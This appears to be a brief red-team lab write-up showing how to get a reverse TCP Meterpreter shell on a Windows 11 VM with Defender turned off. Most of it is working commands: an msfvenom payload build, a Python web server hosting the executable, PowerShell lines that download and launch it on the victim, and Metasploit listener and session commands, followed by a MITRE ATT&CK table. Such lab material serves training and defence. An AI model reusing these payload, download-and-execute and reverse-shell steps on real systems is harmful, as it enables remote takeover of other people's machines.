#  Red Team – Reverse TCP Shell

## Objective

Establish a reverse TCP Meterpreter shell on a Windows 11 VM using Metasploit.\
Note: For the Lab Windows Defender was disabled

---

## Toolset

- **Metasploit Framework**
- **msfvenom**
- **PowerShell**
- **Python HTTP Server**

---

## Payload Creation  
**(For Educational Purposes Only)**

Payload: reverse TCP Meterpreter\
Target: 64-bit Windows\
Format: .exe

bash (attacker):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp rhost=192.168.1.81 LPORT=4444 -f exe -o revshell.exe
```

Delivery via PowerShell\
Host the payload on a web server:

bash (attacker):
```bash
python3 -m http.server 8080
````
Fetch and execute on the Windows target:

Powershell (victim):
````powershell
Invoke-WebRequest http://192.168.1.81:8080/revshell.exe -OutFile revshell.exe
````
````powershell
Start-Process revshell.exe
````
Listener Setup

bash(attacker):
````bash
msfconsole
````
````bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.81
set lport 4444
exploit -j
````
## Connect to shell
````bash
sessions

sessions -i 1
````
````bash
shell
````
## Results:
###### A Meterpreter session was successfully established on the attacker's system after execution.

## MITRE ATT&CK Mapping

| Technique	           |  ID           |
| -------------------- | ------------- |
| PowerShell Execution |  T1059.001    |
| Obfuscation          |  T1027        |
| Common Ports         |  T1043        |
